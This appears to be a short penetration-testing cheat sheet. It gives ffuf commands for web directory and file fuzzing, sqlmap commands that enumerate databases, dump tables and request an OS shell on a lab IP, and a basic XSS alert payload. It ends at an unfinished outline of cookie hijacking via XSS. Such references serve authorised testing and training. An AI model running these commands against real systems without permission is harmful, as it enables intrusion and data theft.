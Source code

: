 ### web app enum (ffuf)

directory discovery:
```bash
ffuf -w wordlist.txt -u http://example.com/FUZZ
```

file discovery:
```bash
ffuf -w wordlist.txt -u http://example.com/FUZZ -e .aspx,.php,.txt,.html
```

output of responses with status code:
```bash
ffuf -w /usr/share/wordlists/dirb/small.txt -u http://example.com/FUZZ -mc 200,301
```

the -maxtime flag offers to end the ongoing fuzzing after the specified time in seconds:
```bash
ffuf -w wordlist.txt -u http://example.com/FUZZ -maxtime 60
```

number of threads:
```bash
ffuf -w wordlist.txt -u http://example.com/FUZZ -t 64
```

### sqlmap

determine the databases:
```bash
sqlmap -u http://10.10.10.15/?id=4 --dbs
```

determine the tables:
```bash
sqlmap -u http://10.10.10.15/?id=4 -D dbname --tables
```

dump a table's data:
```bash
sqlmap -u http://10.10.10.15/?id=4 -D dbname -T table --dump
```

try to get os-shell:
```bash
sqlmap -u http://10.10.10.15/?id=4 --os-shell
```

### xss

check example:
```javascript
<script>alert("hack :)")</script>
```

#### hijack cookie through xss
there are four components as follows:
- attacker client pc
- attacker logging server
- vulnerable server
- victim client pc
